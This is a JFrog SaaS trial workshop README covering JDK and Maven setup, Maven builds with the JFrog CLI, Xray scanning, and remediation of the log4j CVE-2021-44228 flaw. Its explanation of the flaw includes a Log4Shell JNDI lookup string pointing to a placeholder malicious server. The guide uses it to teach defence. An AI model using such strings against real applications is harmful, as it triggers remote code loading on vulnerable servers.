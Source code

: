 # 🏗️ JFrog SaaS Trial Workshop Guide

Welcome to the **JFrog SaaS Trial Workshop!** 🎓  
This guide will help you get started with JFrog SaaS and practice building a Maven project.

## 📝 Prerequisites
### JDK 1.8 Installation
<details>
<summary> Click to expand Maven installation steps </summary>

1. **Install JDK**
   - Download and install JDK from [OpenJDK](https://jdk.java.net/archive/)

2. **Configure Environment Variables**
   <details>
   <summary>Click to expand configuration steps</summary>

   - **Set JAVA_HOME**
     1. Open System Properties (Win + S → "Environment Variables")
     2. Click "Environment Variables" → "New" under System variables
     3. Set:
        ```
        Variable name: JAVA_HOME
        Variable value: C:\Program Files\Java\jdk-17
        ```
   
   - **Add Java to PATH**
     1. In System variables, select "Path" → "Edit"
     2. Click "New" and add:
        ```
        %JAVA_HOME%\bin
        ```
     3. Click "OK" to save
   </details>

3. **Verify Installation**
   ```bash
   # Check Java version
   java -version
   
   # Check Java compiler
   javac -version
   ```
   
   Expected output:
   ```
   openjdk version "1.8.0_442-internal"
   OpenJDK Runtime Environment (build 1.8.0_442-internal-b06)
   OpenJDK 64-Bit Server VM (build 25.442-b06, mixed mode)
   ```
</details>

### Maven 3.6+
<details>
<summary>Click to expand Maven installation steps</summary>

1️⃣ **Download Maven**
   - Go to [Apache Maven download page](https://maven.apache.org/download.cgi)
   - Download the Binary zip archive (e.g., `apache-maven-3.9.6-bin.zip`)

📂 2️⃣ **Extract Maven**
   - Extract the downloaded ZIP file to a directory, e.g.:
     ```
     C:\Program Files\Apache\Maven
     ```
   - Your Maven folder structure should look like:
     ```
     C:\Program Files\Apache\Maven\apache-maven-3.9.6
     ```

⚙️ 3️⃣ **Set Environment Variables**
   <details>
   <summary>Click to expand environment variables configuration</summary>

   ### Windows Environment Setup
   
   #### Method 1: Using System Properties
   ```bash
   # 1. Open System Properties
   # Press Win + S and type "Environment Variables"
   # Or right-click on This PC → Properties → Advanced system settings
   
   # 2. Click "Environment Variables" button
   # 3. Under "System variables" section, click "New"
   # 4. Set MAVEN_HOME:
   Variable name:  MAVEN_HOME
   Variable value: C:\Program Files\Apache\Maven\apache-maven-3.9.6
   
   # 5. Find "Path" variable, click "Edit"
   # 6. Click "New" and add:
   %MAVEN_HOME%\bin
   # 7. Click "OK" on all windows to save
   ```

   #### Method 2: Using Command Line
   ```bash
   # Run Command Prompt as Administrator
   
   # Set MAVEN_HOME
   setx MAVEN_HOME "C:\Program Files\Apache\Maven\apache-maven-3.9.6" /M
   
   # Add to PATH
   setx PATH "%PATH%;%MAVEN_HOME%\bin" /M
   ```

   ### Verify Installation
   ```bash
   # Open a new Command Prompt and run:
   mvn -version
   ```
   
   Expected output:
   ```
   Apache Maven 3.9.6 (...)
   Maven home: C:\Program Files\Apache\Maven\apache-maven-3.9.6
   Java version: 1.8.0_442, vendor: Oracle Corporation
   Java home: C:\Program Files\Java\jdk1.8.0_442
   Default locale: en_US, platform encoding: UTF-8
   OS name: "windows 10", version: "10.0", arch: "amd64", family: "windows"
   ```

   > **Note:** After setting environment variables, you need to open a new Command Prompt for the changes to take effect.
   </details>
</details>

## 🚀 Getting Started

### 1. Apply for JFrog SaaS Trial
1. [Apply for JFrog SaaS Trial](https://jfrog.com/start-free/)  
Select "14-Day Free Trial", it will give you own JFrog Platform.
![alt text](images/trial.png)
2. Ensure you have access to:
   - ✅ **JFrog Artifactory (SaaS)**
   - ✅ **JFrog Xray** 

### 2. Clone the Project
```bash
git clone https://github.com/JFrogChina/jfrog-poc-samples.git
cd jfrog-poc-samples/maven-sample
```

### 3. Create Maven Repositories
![img_6.png](images/img_6.png)
1. Log in to JFrog SaaS Platform
2. Click **Quick Repository Creation** (top-right)
3. Select **Maven** and create:
   - Local Repo: `sample-libs-snapshot-local` `sample-libs-release-local`
   - Remote Repo: `sample-maven-remote`
   - Virtual Repo: `sample-libs-snapshot` `sample-libs-release`

### 4. Configure JFrog CLI
1. [Download JFrog CLI](https://jfrog.com/getcli/)
2. Configure your environment:
   ```shell
   jf c add saas
   ```
   Follow prompts to enter:
   - JFrog Platform URL: `https://<YOUR_DOMAIN>.jfrog.io`
   - username
   - password or Reference Token (from Profile → Edit Profile → Generate an Identity Token)

### 5. Configure Maven
```shell
cd maven-sample
jf mvnc
```
This generates a `settings.xml` pointing to your SaaS repositories.

### 6. Build and Deploy
```shell
jf mvn clean install -f pom.xml --build-name=sample-maven-build --build-number=1
jf mvn deploy --build-name=sample-maven-build --build-number=1
jf rt bp sample-maven-build 1
```

### 7. Verify Deployment
- Check **Artifactory → Artifacts** for deployed files
- View build info in **Builds** section

### 8. Enable Xray Scanning
1. Go to **JFrog Xray → Index Resource**
2. Add to watch:
   - Repositories: `sample-libs-snapshot-local` `sample-libs-release-local`
   - Builds: `sample-maven-build`

### Understanding log4j Vulnerability
The log4j vulnerability (CVE-2021-44228) is detected because your project uses log4j-core 2.14.0. However, it's only exploitable when:

1. Using vulnerable logging patterns:
   ```java
   // Vulnerable
   logger.info("${jndi:ldap://malicious-server/exploit}");
   
   // Safe
   logger.info("User logged in: {}", username);
   ```

2. **AND** when:
   - Logging user-controlled input
   - Input contains `${jndi:ldap://...}` pattern
   - Application has network access to malicious server

This explains why Xray shows many false positives - vulnerabilities exist in code but aren't exploitable in your use case.

### 9. Remediate log4j Vulnerability

#### 9.1 Review Vulnerability
JFrog Advanced Security has identified this log4j package as a true positive. You can view the detailed evidence in the security report.
![img_1.png](images/img_1.png)

#### Review the False Positive Results
![img_5.png](images/img_5.png)
> **86% of critical/high vulnerabilities are false positives**

![img_4.png](images/img_4.png)

#### 9.2 Block Vulnerable Version
![img_7.png](images/img_7.png)
1. **Create Block Condition:**  
   Administrator → Curation Settings → Create Condition  
   ![img.png](images/img.png)

2. **Create Policy:**  
   ![img_2.png](images/img_2.png)

3. **Clean Cache:**
   ```bash
   rm -rf ~/.m2/repository/org/apache/logging/log4j/*
   ```

4. **Verify Block:**
   ```shell
   [main] ERROR org.apache.maven.cli.MavenCli - Failed to execute goal on project app-boot: Could not resolve dependencies for project com.example.jfrog:app-boot:war:1.0.2: Could not transfer artifact org.apache.logging.log4j:log4j-core:jar:2.14.0 from/to artifactory-release (https://demo.jfrogchina.com/artifactory/alex-maven): authorization failed for https://demo.jfrogchina.com/artifactory/alex-maven/org/apache/logging/log4j/log4j-core/2.14.0/log4j-core-2.14.0.jar, status: 403 Forbidden -> [Help 1]
   ```
   ![img_3.png](images/img_3.png)

5. **Fix: Update log4j Version**
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.17.1</version>
   </dependency>
   ```

6. **Rebuild:**
   ```shell
   jf mvn clean
   jf mvn deploy --build-name=sample-maven-build --build-number=2
   jf rt bp sample-maven-build 2
   ```

The build should be successful and the issue was fixed.

7. **Analysis of Vulnerability Fixing Trends:**
Platform → Xray → Scan List → Builds
![alt text](images/buildList.png)

The build should complete successfully, confirming that the security issue has been fixed.

> **Happy building and stay secure! 🚀**